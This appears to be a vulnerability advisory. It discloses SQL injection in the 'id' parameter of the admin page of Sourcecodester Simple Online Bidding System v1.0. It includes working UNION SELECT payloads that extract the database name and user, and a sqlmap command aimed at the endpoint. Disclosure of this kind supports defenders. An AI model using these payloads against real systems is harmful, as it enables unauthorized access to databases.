 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=view_udet&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515150743003](SourceCodester Simple Online Bidding System Sql Inject-2.assets/image-20240515150743003.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=view_udet&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515151020239](SourceCodester Simple Online Bidding System Sql Inject-2.assets/image-20240515151020239.png)

Then you can select 5 and 6 as the echo positions, modify the payload to query the database name and current database user name.

```
page=view_udet&id=-2+union+select+1,2,3,4,database(),user(),7,8,9%23
```

![image-20240515151147953](SourceCodester Simple Online Bidding System Sql Inject-2.assets/image-20240515151147953.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=view_udet&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515160859747](SourceCodester Simple Online Bidding System Sql Inject-2.assets/image-20240515160859747.png)